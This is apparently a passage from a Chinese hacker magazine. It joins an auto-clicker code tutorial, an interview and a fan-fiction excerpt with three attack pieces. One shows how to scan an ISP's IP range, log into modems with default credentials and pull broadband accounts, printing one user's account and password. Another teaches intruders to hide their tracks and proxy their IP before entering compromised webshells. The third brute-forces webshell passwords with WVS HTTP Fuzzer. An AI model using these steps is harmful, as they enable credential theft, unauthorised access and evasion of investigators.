如果结束

如果（点击频率选择.现行选中项 ＝ 2）  
    写注册项（3, "Software\\奢陌影像肖作品\\按键05", 点击频率选择.取项目文本（2））  
否则  
如果结束

d ＝ 取文本左边项（3, "Software\\奢陌影像肖作品\\按键01", "Ctrl键"）  
e ＝ 取文本左边项（3, "Software\\奢陌影像肖作品\\按键02", "F3"）

编辑框1.内容 ＝ "使用方法：1.运行本程序 2.运行游戏 3.把鼠标放在你想点击的地方 ..."  
启动窗口.刷新显示（）  
信息框（"保存设置成功"，64，"奢陌影像感谢您使用"）

子程序：超级菜单1-被点燃  
参数：被点燃的菜单项，菜单  
子程序：点击频率选择-列表项被选择  
子程序：时钟2-周期事件  
如果（_启动窗口.可视 ＝ 假）  
    ...

## 傻瓜黑客

超级菜单1_登录单项图片（隐藏，-2）  
超级菜单1_登录单项图片（显示，-1）  
否则  
如果结束  
如果（c=启动返回_可视二_型）  
  超级菜单1_登录单项图片（显示，-2）  
  超级菜单1_登录单项图片（隐藏，-1）  
否则  
如果结束

子程序_时钟3_周期事件  
局部变量 b，整数型

如果（左键选择_现行选中项==0 且 点击次数选择_现行选中项==0）  
  b=0  
否则  
如果结束

如果（左键选择_现行选中项==0 且 点击次数选择_现行选中项==1）  
  b=1  
否则  
如果结束

模拟鼠标点击（取鼠标水平位置(), 取鼠标垂直位置(), b）

子程序_标签1_反馈事件_整数型  
参数 参数一，整数型  
参数 参数二，整数型  
时钟3.时钟周期=0

子程序2()

子程序_时钟4_周期事件  
d=取文本(注册项(3,"Software\\..."),"Ctrl")  
如果(d=="Ctrl")  
  g=0  
  h=1  
否则  
  快捷键1.现行选中项=1  
  h=1  
  g=4  
如果结束

e=取文本(注册项(3,"Software\\..."),"F3")  
如果(e=="F1")  
  f="#F1键"  
如果结束

如果(e=="F2")  
  f="#F2键"  
否则  
如果结束

如果结束

如果（e=="F3"）  
  f="#F3键"  
否则  
如果结束

w=注册热键(启动返回_取窗口句柄(), 标签4.取窗口句柄(), g, h, f)

d=取文本(注册项(3,"Software\\..."),"Ctrl")  
如果(d=="Ctrl")  
  g=0  
  h=1  
否则  
  快捷键1.现行选中项=1  
  h=1  
  g=4  
如果结束

e=取文本(注册项(3,"Software\\..."),"F3")  
如果(e=="F3")  
  f="#F3键"  
如果结束

w=注册热键(启动返回_取窗口句柄(), 标签4.取窗口句柄(), g, h, f)

子程序_点击频率选择_列表项被选择  
如果（点击频率选择_现行选中项==0）  
  写注册项(3,"Software\\...\\按键05", 点击频率选择.取项目文本(0))  
否则  
如果结束

如果（点击频率选择_现行选中项==1）  
  写注册项(3,"Software\\...\\按键05", 点击频率选择.取项目文本(1))  
否则  
如果结束

如果（点击频率选择_现行选中项==2）  
  写注册项(3,"Software\\...\\按键05", 点击频率选择.取项目文本(2))  
否则  
如果结束

子程序_快捷键2_列表项被选择  
子程序_左右键选择_列表项被选择  
子程序_标签6_反馈事件_整数型  
参数 参数一，整数型

#### 结束

主要代码就已经完成了。下来叉子们可以做一些个性设置，比如给程序放底图，看上去更美观。也可以把标签改成透明的，以免挡住我们有爱的图片。这里就需要删除原先的标签，建立透明标签了，如图3所示，在拓展组件中。至于那几个时钟和标签，大家可能会觉得不好看，影响美观。不过这里只用理会，因为在程序运行后它们会自动隐藏，只是在调试的时候才会看到的。最后就可以编译使用啦！图片在这里就不给了，因为不太好表示。大家可以自己用用看，很不错的哦。

怎么样，是不是觉得代码有些不对呢？呵呵，是的，文本中只有重要部分。接下来我会把全部代码都放上来，亲爱的叉子们可以看看。是不是很简单呢？仅用了一个多小时的时间，广大叉子们千万要自己做做啊，这样才能更好地熟悉代码的作用和区别。

本程序比较小，本人就把源代码和编译过的程序都上传了，供大家研究使用。

本人也只是菜鸟，高手勿笑。

## 宽带帐号批量获取与保护

### 1、宽带帐号的重要意义

随着互联网业务的迅速普及，运营商依靠已有的网络平台与资源，纷纷推出了丰富多彩的内容服务。以中国电信的互联星空为例，中国电信宽带用户可以使用自己的宽带帐号在互联星空平台上直接进行消费，充分享受视频点播、直播、游戏充值、远程教育等各种服务，费用记录在该宽带帐号上。

同时，各运营商纷纷加大WLAN网络建设的力度。尤其在城区，主要道路几乎都能够搜索到运营商的WLAN信号。其中，ChinaNet即为中国电信WLAN网络标识（如图1）。一旦获得宽带帐号及其密码，则可以免费上网。

因此，宽带帐号密码保护是一项十分重要的工作。然而，采用下文提到的通过modem（路由器）远程获取方式，可以在短时间内得到大量宽带帐号及其密码。

### 2、通过modem远程获取密码

在宽带使用过程中，很多用户为了方便，往往把帐号与密码写进modem的配置中，做成modem开机自动在线的模式；同时，很少有人想到去修改modem的默认设置。这样就为通过modem远程获取宽带帐号及密码，提供了可乘之机。具体操作方式如下所示。

- 1. 扫描开放80端口的IP地址。此处为中国电信宽带网络的IP地址段：122.5.128.0-122.5.131.255。我们扫描到122.5.128.44这个IP地址开放了80端口（如图2）。
- 2. 在IE中输入 `http://122.5.128.44`（如图3），显示登录界面，可知该设备为华为MT800路由型modem。
- 3. 输入华为MT800型modem的默认用户名/密码：admin/admin，登录成功（如图4）。此时，可使用该帐号在互联星空上任意消费，或在周围中国电信WLAN热点区域（一般标识为ChinaNet）自由上网。
- 4. 点击左侧菜单“ATM Setting”，根据红色标记所示，可知该用户帐号为a05342106878@dztelc（如图5）。
- 5. 点击IE工具栏“查看-源文件”，即可看到该页面的源代码。经过分析，可以得到帐号a05342106878所对应的密码。根据红色标记所示，该密码为6878（如图6）。

### 3、通过路由器远程获取密码

当前，出于竞争形势考虑，各大运营商基本上都没有对私接路由器进行限制，大量宽带用户均通过路由器实现多台电脑同时上网。因此，通过路由器同样能够轻易拿到宽带帐号与密码。具体操作方法与通过modem获取密码的方法类似：

- 1. 在大范围IP地址段内扫描开放8080端口的IP（路由器默认开放的WEB管理端口）。
- 2. 扫描到IP地址后，打开页面，通过弱口令远程登录路由器。
- 3. 通过查看路由器配置直接拿到宽带帐号。
- 4. 对路由器相关页面的源代码进行分析，拿到帐号密码。

### 4、密码保护措施

为了有效解决宽带帐号与密码被盗所带来的不良影响，运营商已全面开展了宽带帐号精确绑定工作，帐号捆绑在分配给用户的设备端口上。这样，即使外人盗取了宽带帐号及密码，也无法上网，提示691错误（如图7）。

然而，由于投资所限，相当数量的网络设备达不到帐号精确绑定的要求；此外，有漫游需求的帐号、按上网时长计费的帐号，也均未进行精确绑定。因此，为了保护好帐号及密码，还需广大用户做好如下2点重要工作：

- 1. 采用modem拨号上网，尽量不要将“帐号/密码”设置在modem中，而是采取桥接模式。
- 2. 若有特定需求，需要将“帐号/密码”设置在modem中（尤其是路由器中），务必要改默认管理密码，且密码设置要具备一定的强度。

## 在狱“取证”之谈……

其实很早以前就想写篇关于我们同道之人在入侵检测的整个过程中要特别注意自身安全的稿子，可惜总未能如愿。好几次在电视上看到“黑客X某被抓获”之类的新闻，其中必然会有JC封检计算机以便日后取证的画面，甚至有时还会看到有我们非常熟悉的杂志摆在旁边，让人有一种说不出来的感觉。今年2月21日，CCTV的“焦点访谈”播放的是“网络扫‘黑’保安全”，大家可以百度这个题目或直接到中国网络电视台 http://news.cntv.cn/china/20110221/109081.shtml 处观看一下。

相信我们也都比较熟悉计算机犯罪的相关条例，都不想在某个凌晨被……那么，除了在平时的入侵检测中务必要把握住自己之外（比如不恶意删除资料、不篡改网站首页、不挂马、要在发现漏洞之后及时通知对方等），保护好自己的私人信息也是极为重要的，千万不能把“尾巴”留在了对方服务器的日志上。另外，在自己电脑上的N多“痕迹”、黑客操作痕迹也一定要处理好，别被人家一窝端地取了证，那就悲剧了。

上网查了一下关于“计算机取证”，其“百度名片”上是这样描述的：“计算机取证（Computer Forensics）在打击计算机和网络犯罪中作用十分关键，它的目的是要将犯罪者留在计算机中的‘痕迹’作为有效的诉讼证据提供给法庭，以便将犯罪嫌疑人绳之以法。”说白了其实就是获取、保存、分析和出示可信的入侵证据，其首要原则就是要尽早搜集，所以人家会在第一时间就搬走作案的计算机工具（主要是其中的硬盘）。比较专业的计算机取证工具有 ENCASE、X-Ways Capture、FTK 和 Helix 等，有机会大家可以研究一下，其实我们也可以来试一下比较民间的绿色小工具，在自己的电脑上查看自己到底有多暴露！

### 一、“安全保密检查工具”

“安全保密检查工具”是由 KernelSword 针对目前安全行业的需要而针对性开发的一套功能齐全的检查工具。解压缩之后双击其中的“PCScan.exe”即可运行程序，共有“非法外联检查”、“涉密隐患检查”、“违规接入检查”、“文件信息检查”、“规避行为检查”和“系统基本检查”六大功能模块，其中又包括像是“URL记录”、“Cookies记录”、“深度上网检查”、“远程桌面检查”、“端口分析”、“开关机记录”、“U盘使用记录”等四十多项子功能模块。直接点击左上角的“一键检查”按钮，然后根据提示选择模块，一般默认全选，点击“确定”按钮即可开始扫描检查。

经过一段时间的等待，我们就可以点击各选项卡查看相关的记录了，比如“违规接入检查”下的“U盘使用记录”项（如图1），名称、硬件的ID、第一次和最后一次使用时间都显示出来了。

当所有的检查结束之后，我们还可以点击“生成报告”按钮，填入“被检查单位”和“被检查计算机类型”等信息之后再点击“确定”按钮，很快就会生成一份“涉密计算机系统检查报告”，最后点击“保存报告”按钮将它以 html 网页格式保存成文件（如图2），竟然有20多MB，信息可谓非常丰富！

### 二、“RG涉密信息自检查工具2011”

“RG涉密信息自检查工具”能够准确全面地检查出计算机存在的违规行为，据说“即使重新安装操作系统或格式化硬盘后仍可再现”，双击其中的“EvidenceToolkit.exe”即可运行程序，包括七大模块，分别是“系统运行痕迹”、“电脑外联痕迹”、“上网行为痕迹”、“URL缓存痕迹”、“文档处理痕迹”、“USB设备痕迹”和“删除文件检索”，各模块之下又细分为像“经常执行的程序”、“无线网络痕迹”、“Cookie文件”等二十多个子功能模块。使用起来也非常简单，先直接选中某模块，然后再点击“检查痕迹”按钮，最后就可以通过点击相关的选项卡进行各种记录的查询了。比如“系统运行痕迹”中的“应用程序缓存”（如图3），显示出了若干应用程序的路径及描述等详细信息。

### 三、使用360安全卫士的“清理”之后再进行试查

从“清理垃圾”到“清理痕迹”都运行完了之后，我们再来看一下“安全保密检查工具”和“RG涉密信息自检查工具2011”的检查结果。前者查到的“上网记录”仍有许多记录（如图4），包括若干的Cookie缓存记录；后者查到的“经常执行的文件/快捷方式”也有几百条之多（如图5），从最后执行时间和次数到执行项目和路径，都非常详细。

由此看来，如果不是360清理不彻底原因的话，那就是这两个小工具太牛13了，当然更不用提像是EnCase Forensic之类的旗舰级电脑犯罪鉴识软件了。

#### 四、试试“葱头代理获取器”

当然，其实这仅仅是冰山一角，因为在我们的入侵检测过程中还有另外一半的“尾巴”是留在了“肉鸡”服务器上，比如你的登录IP。如果说我们本地的计算机可以通过使用像是影子系统、虚拟机、沙盒等不留操作过程痕迹的话（或者再加上各种清理和N多次的反复擦除），那么我们如何来避免在远程的“被取证”呢？说到底，这无非就是一个IP隐藏的问题，或者说是借别人的IP进行代理跳板。之前试用过几个免费VPN软件觉得还不错，也能实现IP隐藏的目标，但最近貌似找不到好用的免费VPN了。

由于我们一般都是通过浏览器操作进入WebShell，因此使用代理服务器的效果也很好；不过在试了若干个代理之后也不太满意，后来找到了“葱头代理获取器”。双击其中的“LoadProxy.exe”，先点击“控制界面”选项卡下的第一项“获取代理”按钮，开始连接服务器；然后会提示我们“代理获取结束，已成功获取2301个”的成功信息，并且询问我们是否要解析代理服务器的归属地区，点击“是”。此时360木马防火墙之类的安全软件会提示注册表项被修改，其实这是修改了浏览器的“使用IE代理设置”项，放行即可。

双击选择某个代理（比如222.124.21.18），是印度尼西亚的，8080端口（如图6）；再到浏览器中查一下本地的IP，OK，已经是跑到印尼了（如图7）。现在登录你之前拿下的管理后台或WebShell就很安全了，因为你已经不是你了，呵呵。

最后祝大家玩儿黑高兴，安全玩儿黑！

## 使用HTTP FUZZER暴力破解密码

Dark

FUZZER中文名称是漏洞检查工具，通过FUZZER可以发送数据到组件，可以完成数以万计的检查任务，代替手工进行检测，从而发现软件中的漏洞。HTTP FUZZER的意思也就是通过漏洞检测工具发现WEB网站中的漏洞。本文将会介绍WVS的HTTP FUZZER功能。

### 一、什么是WVS的HTTP FUZZER

WVS的全称为Web Vulnerability Scanner（图1），通过这英文名大家应该就知道它就是一款网站漏洞扫描器，不过其实这工具除了扫描网站的漏洞，还有很多的其它功能，比如说端口扫描等。

扫描服务器服务等功能。使用这个工具，可能大家一般都只使用它的扫描功能，对于其他功能使用得比较少。其实这个工具其他功能也十分强大，这里就介绍下它的其中一个功能，也就是 HTTP FUZZER 功能。这个功能类似于很久以前小榕前辈写的“湮雪”，也就是一款暴力破解网页密码的工具。不过由于“湮雪”的年代比较久远，因此对于现在很多登录表单都不支持了。因此 WVS 的 HTTP FUZZER 相当于“湮雪”的加强版，无论在表单支持的种类上，还是稳定性以及破解速度上，都比“湮雪”好些。所以这里就介绍下使用 WVS 的 HTTP FUZZER 暴力破解密码。

有些时候在检测一个网站的时候，可能会看见其他人留的 WebShell，但是由于没有密码，就不能控制这个 WebShell。这时候就可以尝试下使用 HTTP FUZZER 对密码进行暴力破解，如果对方使用的是弱口令，那么就很有可能暴力破解出密码。要对密码进行破解，字典是必须的工具。虽然说 WVS 的 HTTP FUZZER 也支持简单的字符和数字的暴力破解，但是一款好字典的用处还是很大的。字典可以从网上下载生成好的，也可以自己通过工具生成。这里通过易优字典生成器生成一个字典，图3。由于只是简单测试，这里就只生成一个小写字母的字典，生成的字典名字为 superdic.txt。


#### 二、HTTP FUZZER 功能介绍

首先打开 WVS，在 Tools 这一栏中可以看见 HTTP Fuzzer 这个选项，点击后出现如下界面（图2）。下面我就介绍下怎么使用这个功能。首先 start 这个按钮也就是开始破解，这个大家都明白。Fuzzer Filters 这个主要对返回状态进行过滤，通过设置规则，让程序懂得什么情况是密码错误，什么情况是密码正确。这里可能说得有点抽象，等会儿通过实例就很好懂了。Request 这里填写发送的数据包，通过对发送的数据包进行修改，可以使程序明白什么地方是可以暴力猜解的地方。Results 就是返回的结果，根据不同的返回状态，判断密码是否爆破成功。

为了让小菜能够理解原理，这里我就写了一小段 PHP 代码模拟后台登录，通过这段代码应该就可以轻松理解后台登录的原理，以及为什么可以暴力破解密码，代码如下：


#### 三、使用 HTTP FUZZER 暴力破解登录密码

上面简单说明了 HTTP FUZZER 的功能，可能大家都还不是很懂具体的操作，下面我就以暴力破解登录密码作为实例。

```php
<?php
$password=$_POST['password'];
if(isset($_POST['password'])){
    if($password=='heix'){
        echo 'The password is right!';
    }else{
        echo 'The password is wrong!';
    }
}
?>
<html>
<body>
<form name="form" action="" method="POST">
请输入你的密码：<input type="text" name="password"/>
<input type="submit" name="submit" value="登录" />
</form>
<body>
</html>
```

这段代码相当简单，不过登录的原理也包含在这小段代码中了。如果输入的密码为 heix，那么就输出密码正确；如果密码错误，那么就会输出错误提示。这里要注意的就是错误提示，因为要让工具自动破解密码，就必须让工具找到关键词，也就是 key，而 key 一般就包含在错误提示中。比如说这里的 wrong 就明显是个 key，等会儿就会在工具中用到。


图4


图5

要进行密码破解，就需要抓取网页提交的数据包。可能大家以前经常使用 Winsock Expert 这款工具，以前的黑X也介绍过这款工具的使用。这里就使用一款比 Winsock Expert 功能强大的工具 BurpSuite，如图4。这里简单说下用法：先本机设置代理，将数据通过 BurpSuite 的代理转发出去，图5。然后访问登录地址，我这里使用的是本机搭建的测试环境，也就是 http://127.0.0.1/shell.php，图6。然后随便输入一个密码，比如说 test，点击登录后 BurpSuite 就会有数据，数据在 Proxy 的 History 选项下，比如这次访问的数据如下：

```
POST /shell.php HTTP/1.0
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*
Referer: http://127.0.0.1/shell.php
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
UA-CPU: x86
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.2; SV1; .NET CLR 1.1.4322)
Host: 127.0.0.1
Proxy-Connection: Keep-Alive
Pragma: no-cache
Content-Length: 33

password=test&submit=%B5%C7%C2%BD
```

最重要的数据就是最后一行的数据，可以看到 test 就是刚才提交的数据。


图6


图7

这时候只需要将数据放在 WVS 的 Request 里面。然后点击 Add Generator，选择 File Generator，图7。然后在下面的 filename 中选择刚才生成的那个字典，filetype 选择 Text，encoding 保持默认，图8。

然后我们将 Request 中数据最后一行，也就是 password=test，将 test 用鼠标左键选中，然后点击 Insert into Request。这时候 test 就会变成 ${Gen_2}。这样的目的就在于告诉程序：password 是一个用于暴力破解的变量。这一步很重要，不然的话 HTTP FUZZER 是不知道哪个是需要破解的变量。然后就是设置过滤器，也就是 Fuzzer Filter。首先要添加一个规则，这里 rule description 是对这个规则的描述，可以不填，这里就随便填一个 heix 吧。rule type 有两种选择，一种是 exclude，也就是不包含；另一种是 include，也就是包含。这里我们使用 exclude。Apply To 可以保持默认，然后 regular expression 也就是规则描述，这个选项比较重要，关系着破解的成功与否。由于选择了 exclude，也就是当页面出现了某个特定字符的时候表示密码是错误的，这里使用 wrong 作为关键字，在 regular expression 中填写 wrong。然后点击 add，就添加成功一个规则了，图9。


图9


图8

图10

准备工作做好了，就可以点击 start 进行破解了，很快密码就被解出来了，是 heix，图10。这里只演示了破解密码这种情况，其实大多数时候还是有用户名的，这时候只要多添加一个变量就可以了，操作步骤也差不多，这里就不再说明了。

通过上面的操作，我想大家应该都明白了登录的原理和怎么使用 HTTP FUZZER 破解密码了吧。可以看出，破解密码还是挺简单的。有些事情想起来可能比较难，其实自己亲手实践后才会发现，还是挺容易的。

## Fooying：

## 我的编程世界

圣智

嘿，又和大家见面了，这期还是由我来担任主持。（突然假装深沉……）咳咳，上次孙老师来黑客人物面对面跟我们探讨无线安全方面的知识，除了无线方面的还有其他的吗？这个当然有，好了，下面我们有请 Fooying。

#### 个人资料

- 姓名：Fooying（张祖优）
- 年龄：21
- 现居住：福州
- 职务：在校大学生
- 赤魂论坛（rsoul.org）创始人，中国红客联盟（bbs.honker.net）核心成员，中国反病毒小组（china-antivirus.com）核心成员；进行过多款软件开发及多个网站制作。
- 撰写过《红盟木马攻防基础知识》《木马连接技术初探》《红盟易语言基础课程》等文档、文章及教程；“水墨网卫”“蓝色防线”等软件作者。
- 站点：http://www.rsoul.org

**圣智：** Fooying，你好，能简单介绍一下自己吗？

**Fooying：** 目前是在校大学生，学的是软件专业。其实也没什么可值得采访的，如果真算上擅长的话，编程算一个，有过几个小作品，对于木马之类的也有点小研究，都没精通。最早接触电脑和网络是在小学……现在主要是和青龙弄了个编程论坛——赤魂（http://www.rsoul.org），还有自己的博客和记录中国黑客文化的小站。

没什么起色，大家整体水平不够。总的打算就是先毕业了，有点事业，也没其他追求了，提高技术，平淡地生活。

**圣智：** 那你接触编程方面有多久了呢？

**Fooying：** 接触编程好几年了，但如果严格来说，真正去学编程应该是从高二年参加信息奥赛开始。记得信息奥赛的语言是 C 和 Pascal，我们学的是 Pascal。刚开始基本静不下心，一个暑假在学校机房学“动态规划”等算法，正式认识了这个充满魅力的世界。

**圣智：** 你的第一个程序是什么样的？

**Fooying：** 我的第一个程序其实记不清了。不过印象最深的是当初参加信息奥赛时平时练习的一个作业吧！自己用自己的思路编写的程序，在代码优化和执行方面比老师的好，所以还被夸奖，印象特别深。

**圣智：** 你对软件觉得最有趣的技术是哪部分？比如？

**Fooying：** 对于软件最有趣的技术，就目前来说我喜欢安全方面编程，所以更感兴趣的是系统底层编程技术。编程是一种非常枯燥的工作，如果你能学会从编程发现乐趣，就不会那么枯燥。每写一条语句都能收获一点开心。觉得在编写出一个成品的时候，那才是最大的喜悦。

### 黑客人物面对面

**圣智：** 软件最神奇的地方是什么？有哪些意想不到的效果？

**Fooying：** 如果把你在使用计算机中要实现的目的比作河的对岸，如“系统垃圾清理”“数据统计”等，你想到达河的对岸的话，那么不同的软件就充当了一座座不同的桥。这就是软件的魅力所在；而软件的神奇，如果说就刚才那个比喻，就是那桥的搭建。因用户的各种需要而产生各种软件，实现用户需要的各种功能，使得使用计算机从复杂变成简单，从军事、科研专用普及到了家家户户，这都是软件的神奇和魅力。

**圣智：** 对于现在计算机语言种类的繁多，这也是新手最常问到的问题，你觉得编程应该从哪里入手，或者是从哪种语言学起较好呢？

**Fooying：** 像我身边有很多人学编程，有些是现实朋友，有些是网友，也经常问我这样的问题。应该说自己学过易语言，编写过易语言教程的缘故，向我提问的易语言学习者占有一定比例。其实作为一款国产编程语言，按道理该支持的，但是个人不建议编程初学者学习易语言。易语言类似 VB，但是其在封装上基于 VB，这样的确是减少了编程量，一个功能有时一句话代码就能实现了。但是同样地，一种编程思维和能力的锻炼就少了。作为学习编程的人，在今后不仅仅只是接触易语言这样一种语言，还有更多语言需要掌握。做任何事都一样，都得打好基础，所以开始学编程应该是试着用各种方法锻炼自己，增加自己的编程量，而非减少。而如果问哪种语言比较适合初学者，我想是 C。大部分程序员学习编程都应该是从 C 入手，编程都是类通的，先学习 C，养成一定的编程思维，再学习其他语言就会变得简单多了。

**圣智：** 一些新手经常会问，英文不好对学习编程有影响吗？你也建议大家到国外站点去查阅相关资料。请问国外站点对程序员有哪些吸引之处呢？

**Fooying：** 其实我在做博客上回答过这个问题。应该说英文不好对学习编程是有影响的，但不是绝对的。其实每次有人问我这个问题，我都会反问一句：你会为了学编程而去学英语吗？不管是学习编程还是学习其他技术，都主要在两个词：“决心”“毅力”。如果真有决心和毅力的话，你就不该是担心英文不好而对编程有影响，而是会为了编程而去学习英语。由于计算机、编程语言最早都是在国外产生，自然语言都是英语。如果有一定的英语基础，你会发现，不同的功能函数名本身就是该意思的英文翻译，如 C 语言中的“math.h”头文件，就是包含一些数学计算的语句、函数等。所以如果你懂得“math”这个单词的话，那么就好记多了。当然，其实平时根本不用去特意记，在平常的程序编写中经常使用这些函数等，你自然而然就会记住了。而为什么建议大家到国外站点去查阅资料呢？应该说不只是编程，包括其他技术，很多时候第一手资料和知识都在国外，不管学什么都要不断更新知识，自然要懂得去学习最新技术。

**圣智：** 你起初弄赤魂这个编程交流论坛是抱着怎么样的一种想法，或想把赤魂运营成怎样的论坛呢？

**Fooying：** 最开始赤魂我是搞了一个自己想弄的记录中国黑客文化的网站，然后有一次在跟 tucur 聊天提到都想弄个论坛，所以两人就花钱买空间搞了赤魂论坛。现在包括啊D、乱码、QQ吻等人都加入了。我和青龙最开始的目的是想创建一个技术论坛，但是想想其实大家都擅长编程，其他技术其实没那么擅长，于是在青龙建议下改为编程论坛，目的在于打造一个原创编程社区。核心的十多个人，都是朋友吧，大部分是我和青龙直接邀请，然后部分申请进入的；目前论坛的内容大部分也都仅限于各位核心自己写的文章和作品。论坛只是为了给志同道合的朋友们提供一个技术交流平台，目前希望通过这个交流平台结识更多技术朋友，大家共同进步、共同提高。现在的话，其实我们一堆人在一起挺开心的，有时聊天、吵吵，有时有问题也互相讨论，基本达到交朋友的目的了，共同进步吧！

**圣智：** 对于国内诸多编程站点都是采取开放式管理，赤魂则采取封闭式管理，这样会对交流气氛有影响吗？赤魂有哪些与其他论坛不同的亮点？

**Fooying：** 其实开放式管理的话好处是人气比较高，而自然封闭式的人气就低了。但是封闭式更容易控制论坛整体帖子的质量。应该说我们的这种模式是学习 T00ls 的，我们不求人气，但求志同道合者交个朋友，共同交流、分享编程技术。其实我们的审核要求不会很高，只要你会编程，那么就会有可分享和交流的东西，就能加入我们。对于编程零基础的人可能不太公平，无法加入，但其实待遇和努力是成正比的。如果说赤魂也开放式管理，那么和网上其他一些编程论坛又有什么不同？整个论坛采取封闭式管理，应该就是和我们建立这个论坛的最初目的是呼应的，这个当初我和青龙在决定是否开放的时候就达成共识，采用封闭式。毕竟我们不求人气，只求真正的技术分享与交流。赤魂的亮点的话，应该说在于我们的原创性吧，论坛的文章 90% 以上是原创的，个别人优秀文章进行转载到论坛；同时还在于论坛的会员，能加入赤魂的任何一员，在编程上都有一定水平，大部分都有着自己的作品，这样更加有助于经验分享、技术交流，平时的共处也更有话题可交流。

**圣智：** 对于一个程序员而言，担心还是软件安全问题，比如：溢出、被破解等问题，你有什么较好的应对方案吗？

**Fooying：** 应该说自己在这方面做得最差吧。其实我 80% 的作品都是开源的，所以也没担心过破解等问题。至于溢出等漏洞或者问题，一般在自己编程过程中没法测试出来，我都会邀请懂的人帮忙测试，多做几个版本的测试版，来发现问题，然后解决，最终把软件尽量做得好一点。其实现在的一些商业软件加密软件也很好用，加密后也不好破解。如果实在对方有能力，逆向很强，那也没办法，只能寻求其他的应对方案了。

**圣智：** 能给我们说下未来一年内病毒发展的趋势，或者将会往哪一方面发展呢？程序员与木马者往往只是一念之差，在这里你想对木马者说些什么呢？

**Fooying：** 虽然为反病毒小组成员，自己对于木马的研究会更多一点，现在的话基本完全在于程序开发，对于两者的研究更少了。像江民前辈之前写的一篇文章中说道病毒向着变形病毒方向发展，个人觉得很有道理。像之前的“鬼影”病毒，从一开始的出现，到后来各种变形版本，让人防不胜防。另外一方面，程序员和木马者之间的关系，其实个人自己也尝试编写过木马，主要是想学习木马的相关技术，最终也没发布出来。其实说木马，也是一种特殊的远程控制软件。工具是人写的，不是看工具怎么样，其实更多看人怎么用。这个道理大家都懂。应该说很多木马一开始作者的目的也只是写个远程控制软件吧，在种种因素下，最终就会变成木马。不同的人将编程技术运用于不同方面，有些人出于不同目的特意写木马，个人还是建议违法的事情不要做，有那技术，倒不如多开发些软件，用于他途。

**圣智：** 最后，你对黑客X档案有什么建议或者意见吗？

**Fooying：** 其实看《黑客X档案》也看过挺久的。《黑客X档案》应该算是自己在网络安全方面的启蒙老师，最初的网络安全学习都是来自《黑客X档案》。建议和意见的话，作为搞编程的当然希望多点编程方面的内容，呵呵，其他的就没有了。希望《黑客X档案》能越办越好，也代表赤魂的所有核心祝《黑客X档案》的发展越来越顺利！

**圣智：** OK，这期的采访就到这里吧。同时也谢谢 Fooying 童鞋。


### 侠隐仙踪

### 寻情记（三）

（妖娆）

她已经见着他了，必然还能再遇见他，模糊的却是她和他的结局。她是来改变这原定的结局的，可她真的能改变这结局么？

## 四、既见君子 云胡不喜

如何让你遇见我，在我最美丽的时刻。为这，我已在佛前求了五百年，求他让我们结一段尘缘。

蔡小青没来由地想起了席慕蓉的这首《一棵开花的树》，她此时不正如这棵在佛前祈求了五百年，只为遇见那一场美丽尘缘的花树。可她甚至也不能算是花树，充其量地只是杆翠竹，没有桃李芬芳，无法争奇斗艳，只有盈盈绿影，顾影自怜。可即使如此，她却亦心如花树，期盼良缘。

穿越之前的蔡小青是个普通的IT民工，纠结的三无少女，无长相无身材无特色，挑不出亮点；穿越之后成为了程英，却也是受制角色本身的恬淡漠然，明明心里千般渴望万般急切，却如同被命运操控着一般，只能按部就班，循着那剧情发展一步步来，空把那青春韶华，都付了无望相思。

蔡小青不是没想过跳出这样的约束，活出自己的个性来，塑造一个不一样的程英。可这个魔魅神奇的世界，有着不可言说的制约，蔡小青的程英这个身份，像是空气一般，看似没有任何强制接受的样子，却是在不经意间慢慢地渗透到蔡小青的性格之中，有时候她甚至也很难分清楚自己到底是那个脾气暴躁、长相一般的白羊座女生蔡小青，还是眼前这个面容晶莹、孤高清冷的程英。

人生如梦，梦如人生。究竟是庄周化蝶，还是蝶化庄周，蔡小青逐渐地分不清了。对于这个问题，她纠结了一阵找不到答案，便已不再去执着追寻，只是摇头不语，笑意淡淡。既来之则安之，思索不出的答案，不如一切随缘。

虽说是随缘，蔡小青自己却也不知道这一场寻情之旅会有怎样的结果，自己怎样做才能获得期盼的爱情，跳出剩女的行列，未来的走向看起来既清晰又模糊。清晰的是……

她徘徊在黄蓉布下的乱石阵外，内心一阵激荡，纷乱如同这地上摆放的乱石，急需一个妙法来带领她走出这纷乱如麻的思绪。阵内便有他，见还是不见，青色的竹杖在地上来回画了好几圈，蔡小青仍旧是拿不定主意。

正踌躇间，忽听一声“啊”的惊呼，是他，这声叫喊她绝对不会听错，分明是杨过的声音，莫非他遇险了？蔡小青心里一慌，顾不得之前的顾虑矜持了，运功提气，飞身潜入阵中，循声而去。

这乱石阵是黄药师根据周易八卦之理，集两仪四象之精髓，结合二十八星宿创建的，颇有当年诸葛武侯的八卦阵之遗风。即使黄蓉仓促间草草布阵，若不知此阵诀窍，断然无法自由进出。蔡小青师从黄药师多年，他虽未亲传身教，但却不阻止蔡小青研习桃花岛之内的所有典籍。

轻功，药理，内功，剑法，奇门遁甲……黄药师的武学见识博大精深，蔡小青一个现代的姑娘自个儿去自学这些，当中的种种苦楚难以言说。想当初蔡小青就是厌烦了背诵默写语文书里那些半文不白的文言文，才愤而选择了理科，踏上了IT民工这条不归路。却不知穿越到这世界上之后，仍旧是要遇上这让她头大的东西。

可这就像游戏里的设定一般，你的技能不达到一定程度，NPC就不会交给你任务，剧情就无法展开。什么都不会的蔡小青，又如何能在这波云诡谲、险恶万分的江湖中生存下去，更遑论寻求爱情？

蔡小青此时才真切地觉得，其实不管是哪个世界都是这般公平，你想要获得什么，必须付出与之相等的代价才行。不劳而获的东西，实在是太少，而能让你遇上的几率又是那么小。静下心来的蔡小青想通之后，倒是没那么抗拒了，开始认真研习黄药师所收藏的那些武功典籍。

性格受到了程英的影响，貌似智商也是同样受影响。程英的聪慧机敏在蔡小青学习那些艰涩难懂的武功典籍、奇门遁甲时，慢慢地浮现出来，展现得淋漓尽致。一个个蝌蚪文似的手写毛笔字，一句句生涩深奥的武功口诀，仿佛用程英的眼去看，用程英的心去理解，都没那么难了。

台上一分钟，台下十年功。蔡小青灵巧地穿梭在乱石阵中，心里却不由得感慨道，这乱石阵她这几年来反复研习了上千遍，经过最初几次困在阵中两三天、饿得半死的悲惨过往之后，她现在已然是掌握得驾轻就熟，能够来去自如了。而这些，都只为在这一刻派上用场。

